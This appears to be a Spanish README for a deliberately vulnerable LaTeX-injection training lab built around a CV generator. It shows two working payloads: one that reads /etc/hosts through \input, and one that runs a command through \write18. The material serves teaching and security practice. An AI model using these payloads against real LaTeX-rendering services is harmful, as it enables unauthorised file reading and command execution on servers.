


## 🚨 LaTeX Injection (Latex-Injection-Lab)
- Aplicación vulnerable a inyección de contenido malicioso en documentos generados en LaTeX.
- Se trata de una aplicación web que permite generar Curriculums Vitae (CVs) en gran calidad tipográfica.
- Sin embargo, al no controlar de forma correcta el input del usuario, un atacante puede llegar a leer archivos del servidor además de poder ejecutar comandos.

En este ejemplo podemos ver como el usuario lee el contenido del archivo **/etc/hosts** del servidor:

```sh
\input{/etc/hosts}
```



En este otro ejemplo, el usuario logra ejecutar el comando **whoami**, problema bastante crítico para la aplicación web:

```sh
\immediate\write18{whoami > comando.txt}
\input{comando.txt}
```


